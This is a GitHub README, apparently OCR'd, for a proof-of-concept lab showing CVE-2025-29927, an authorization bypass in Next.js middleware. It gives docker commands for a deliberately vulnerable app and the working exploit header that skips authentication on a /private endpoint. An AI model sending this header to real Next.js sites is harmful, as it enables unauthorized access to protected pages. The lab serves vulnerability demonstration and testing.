 # Next.js Middleware Exploit: CVE-2025-29927 Authorization Bypass POC
This folder contains a sample web application vulnerable to [CVE-2025-29927](https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass), an authorization bypass vulnerability in NextJS when an attacker adds a specially-crafted HTTP header.

## Running the application

Run it:


```
docker build . -t vulnerable-app
docker run -p 3000:3000 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a private endpoint `/private` that is accessible only by authenticated users.  


You can bypass authentication by adding the following HTTP header to the request:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```